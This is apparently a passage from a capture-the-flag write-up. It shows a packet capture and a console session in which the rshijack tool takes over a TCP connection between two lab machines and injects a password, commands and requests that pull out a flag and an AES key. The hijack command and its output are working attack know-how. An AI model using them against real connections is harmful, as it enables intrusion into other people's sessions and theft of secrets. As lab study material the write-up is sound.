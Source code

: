 ```
   70 295.383862265 192.168.54.150 → 192.168.54.152 TCP 90 39926 → 57984 [PSH, ACK] Seq=325 Ack=127 Win=29056 Len=24 TSval=2886729697 TSecr=3333909706 39926 57984
   71 295.384054571 192.168.54.152 → 192.168.54.150 TCP 54 57984 → 39926 [ACK] Seq=127 Ack=349 Win=512 Len=0 57984 39926
   72 299.128980064 192.168.54.152 → 192.168.54.150 TCP 62 57984 → 39926 [PSH, ACK] Seq=127 Ack=349 Win=1024 Len=8 57984 39926
   73 299.129457612 192.168.54.150 → 192.168.54.152 TCP 120 39926 → 57984 [PSH, ACK] Seq=349 Ack=135 Win=29056 Len=54 TSval=2886733441 TSecr=3333909706 39926 57984
   74 299.130427192 192.168.54.152 → 192.168.54.150 TCP 54 57984 → 39926 [ACK] Seq=135 Ack=403 Win=512 Len=0 57984 39926
   75 302.442721723 192.168.54.152 → 192.168.54.150 TCP 59 57984 → 39926 [PSH, ACK] Seq=135 Ack=403 Win=640 Len=5 57984 39926
   76 302.443180559 192.168.54.150 → 192.168.54.152 TCP 117 39926 → 57984 [PSH, ACK] Seq=403 Ack=140 Win=29056 Len=51 TSval=2886736753 TSecr=3333909706 39926 57984
   77 302.443325328 192.168.54.152 → 192.168.54.150 TCP 54 57984 → 39926 [ACK] Seq=140 Ack=454 Win=512 Len=0 57984 39926
```

Packets 1-36 are the real client communicating with the server. Starting from packet #37, the session is hijacked and we are communicating with the server via the `rshijack` console (notice how the IP stays the same even though this is a different VM):

```console
# ./rshijack eth2 192.168.54.152:57984 192.168.54.150:39926
Waiting for SEQ/ACK to arrive from the srcip to the dstip.
(To speed things up, try making some traffic between the two, /msg person asdf)
DEBUG 2019-02-19T20:04:01Z: rshijack::net: eth: EthernetFrame { source_mac: MacAddress([8, 0, 39, 244, 81, 250]), dest_mac: MacAddress([8, 0, 39, 20, 105, 213]), ethertype: IPv4 }
DEBUG 2019-02-19T20:04:01Z: rshijack::net: ip4: IPv4Header { version: 4, ihl: 20, tos: 0, length: 60, id: 5104, flags: 2, fragment_offset: 0, ttl: 64, protocol: TCP, chksum: 14413, source_addr: 192.168.54.152, dest_addr: 192.168.54.150 }
DEBUG 2019-02-19T20:04:01Z: rshijack::net: tcp: TcpHeader { source_port: 57984, dest_port: 39926, sequence_no: 4024149525, ack_no: 994209791, data_offset: 8, reserved: 0, flag_urg: false, flag_ack: true, flag_psh: true, flag_rst: false, flag_syn: false, flag_fin: false, window: 229, checksum: 47701, urgent_pointer: 0, options: None }
[+] Got packet! SEQ = 0xefdba61d, ACK = 0x3b426fff
Starting hijack session, Please use ^D to terminate.
Anything you enter from now on is sent to the hijacked TCP connection.
test
wrong password, try again
laeyobmsamlrdmyh
ok
whoami
LUKE, I am your father!
ls
420240    canudoit.zip
4096      Downloads
4096      Home
4096      Publictime
It's time to say GOODBYE!
get flag
your flag is: 4******
get key
AES
key=4dJhvjFRn2oXraty
iv=1234567890123456
MODE_CBC
help
I really want to help you, but I hate get COMMANDS!
```
